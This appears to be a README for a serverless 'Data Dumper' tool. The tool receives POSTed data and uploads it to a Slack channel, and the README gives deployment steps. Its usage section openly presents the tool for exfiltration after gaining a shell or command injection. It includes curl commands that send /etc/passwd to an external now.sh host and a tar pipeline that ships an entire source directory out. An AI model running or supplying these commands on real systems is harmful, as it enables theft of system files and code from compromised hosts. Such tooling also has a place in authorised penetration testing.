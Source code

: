 # Data Dumper
This serverless function takes any data sent to it in a POST body request and writes to a file in Slack using the [Slack Files Upoad API](https://api.slack.com/methods/files.upload). A message is then sent to the channel with the uploaded file.

For convenience, the function takes whatever path you POST to and uses that as as the filename for the uploaded paht. If the data is POSTed to the `/` path, a UUID is generated instead.

## Deployment
This function requres two environment variables:

 * `SLACK_TOKEN` - An OAuth Access token for your Slack App. The app also needs the necessary permissions, including the "Upload and modify files as user" scope.
 * `SLACK_CHANNEL` - the Channel ID to post the message to

I recommend using Now's secrets to store these values. To deploy the function:

```
$ now secrets add slack-token "xxxx-token-here"
$ now secrets add slack-channel "Cxxxxx"
$ now -e SLACK_TOKEN=@slack-token -e SLACK_CHANNEL=@slack-channel --public
```

## Usage
The function reads any raw POST body data and uploads is a file. It's generally designed to be used with `curl --data-binary` from the command line.

You can control the filename by changing the path you POST to.

For example, to exfiltrate `/etc/passwd` when you have a shell or command injection:

```
$ curl --data-binary @/etc/passwd https://datadump-slack-ogfklyqrmv.now.sh/passwd_file
```

This will upload the file and alert the channel in Slack with the file

![dump_passwd_file](../imgs/serverless_dumper_passwd.png)

It's also possible to upload with curl from  `stdin`, so you can chain commands together and exfiltrate entire directories using tar:

```
$ tar cvzf - /app/src | curl --data-binary @- https://datadump-slack-ogfklyqrmv.now.sh/app_src123.tar.gz
```
![slacK_tarball_dump](../imgs/slack_tarball_dump.png)
